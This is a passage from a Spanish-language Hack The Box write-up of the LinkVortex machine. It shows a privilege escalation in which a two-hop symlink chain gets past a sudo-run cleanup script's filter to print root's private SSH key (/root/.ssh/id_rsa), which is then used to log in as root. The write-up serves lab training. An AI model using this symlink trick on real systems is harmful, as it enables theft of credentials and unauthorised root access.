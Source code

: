 Este script está diseñado para procesar únicamente enlaces `.png`, Si es un symlink, revisa a qué apunta, si apunta a algo con `etc` o `root`, lo borra por seguridad, si no, lo mueve a `/var/quarantined`. Si la variable `CHECK_CONTENT` es igual a `true` expone el contenido de cualquier archivo apuntado una vez pasado el filtro de seguridad.

El script sólo comprueba una vez el destino del symlink en busca de menciones a `etc` o `root`. Si el nombre intermedio no contiene esas cadenas, pasa el filtro.

* Creo un primer symlink `rsa.txt` que apunta a `/root/.ssh/id_rsa`.
* Luego creo un segundo symlink `rsa.png` que apunta a `./rsa.txt`.
* Habilito la variable `CHECK_CONTENT` y llamo al script como `root`.

```terminal
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa rsa.txt
bob@linkvortex:~$ ln -s /home/bob/rsa.txt rsa.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/rsa.png
```

Con la clave privada, la copio a mi máquina y me conecto por ssh como `root`.

```terminal
/home/kali/Documents/htb/machines/linkvortex:-$ ssh -i id_rsa root@linkvortex.htb

root@linkvortex:~# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/638" target="_blank">***Litio7 has successfully solved Linkvortex from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
